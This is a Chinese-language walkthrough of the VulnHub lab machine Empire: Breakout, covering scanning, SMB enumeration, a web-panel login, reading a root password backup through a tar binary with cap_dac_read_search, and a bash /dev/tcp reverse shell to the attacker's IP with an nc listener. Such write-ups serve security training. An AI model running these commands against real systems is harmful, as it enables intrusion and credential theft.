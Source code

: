 ```yaml
---

title: Vulnhub--Empire:breakout
categories: [渗透靶场, Vulnhub]

---
```


## 渗透复现

1. 信息收集（端口信息，源码泄露，服务扫描）
2. 利用tar文件的特殊权限实现任意文件读取
3. su登录失败则执行反弹shell

## 知识扩展

1. tar文件具有可执行权，并且具备跨目录读取任意文件的特殊权限
2. backups（备份文件）中存在信息敏感文件

## 靶机地址

[Empire: Breakout ~ VulnHub](https://www.vulnhub.com/entry/empire-breakout,751/)

## 主机发现

（1）攻击机

```py
192.168.186.135
```

（2）目标靶机

```py
192.168.186.156
```

##  信息收集

###  端口扫描

![image-20240828155845457](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281558558.png)

###  目录访问

（1）80端口

![image-20240828155856665](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281558723.png)

（2）页面源码

![image-20240828155903912](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281559957.png)

（3）bringfuck编码解密

![image-20240828155910755](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281559800.png)

（4）10000端口（http访问）

![image-20240828155916065](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281559105.png)

![image-20240828155922210](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281559258.png)

（5）页面源码

![image-20240828155939524](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281559573.png)

（6）端口20000（http访问）

![image-20240828155944946](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281559987.png)

![image-20240828155949675](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281559729.png)

（7）页面源码

![image-20240828155956350](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281559397.png)

### SMB服务探测

服务器开放smb服务，使用enum4linux进行smb服务的信息收集（成功拿到用户名）

```py
#enum4linux是SMB服务（文件共享协议）专用枚举型扫描器
enum4linux -a 192.168.186.156
```

![image-20240828160003359](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281600462.png)

## 实施攻击

（1）利用账号密码尝试登录平台

![image-20240828160014791](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281600839.png)

（2）成功登录20000端口的用户平台

![image-20240828160019753](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281600801.png)

（3）查找可用功能点（左下角具备开启用户shell功能）

![image-20240828160027624](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281600670.png)

![image-20240828160031876](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281600919.png)

##  提权

（1）发现敏感文件tar，查看tar文件权限（发现tar文件具有可执行权）

```py
ls -l tar
```

![image-20240828160044774](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281600823.png)

（2）getcap命令查看tar文件是否具备特殊权限

```py
#特殊权限可以让特定文件在没有root权限情况下对其他文件进行特权操作
#cap_dac_read_search：忽略文件读以及目录搜寻的限制
#tar文件具有可执行权，并且具有跨目录读取任意文件的特殊权限
#因此可以利用tar文件对重要信息文件进行打包再解压处理，从而绕过文件权限限制
getcap tar
```

![image-20240828160052238](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281600293.png)

（3）回到根目录搜寻重要信息文件（var/backups/目录下发现了隐藏文件.old_pass.bak）

![image-20240828160104210](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281601257.png)

![image-20240828160122861](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281601909.png)

（4）记录文件路径，回到tar文件所在目录下（没回到tar目录下的话是无法使用tar文件的）

```py
#将.old_pass.bak文件压缩为yeah.tar文件包
./tar -cvf yeah.tar /var/backups/.old_pass.bak
```

![image-20240828160130355](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281601403.png)

（5）解压yeah文件包，实现权限绕过

```py
#拿到root密码：Ts&4&YurgtRX(=~h
tar -xvf yeah.tar
```

![image-20240828160137431](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281601484.png)

（6）su登录失败，进行反弹shell

![image-20240828160144727](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281601776.png)

（7）kali开启监听端口

```py
#监听
nc -lvp 6666

#bash -i >& /dev/tcp/kali的IP/监听端口号0>&1
bash -i >& /dev/tcp/192.168.186.135/6666 0>&1
```

![image-20240828160152302](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281601359.png)

![image-20240828160202158](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281602198.png)

（8）成功反弹shell，登陆root用户，提权成功

![image-20240828160211217](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281602333.png)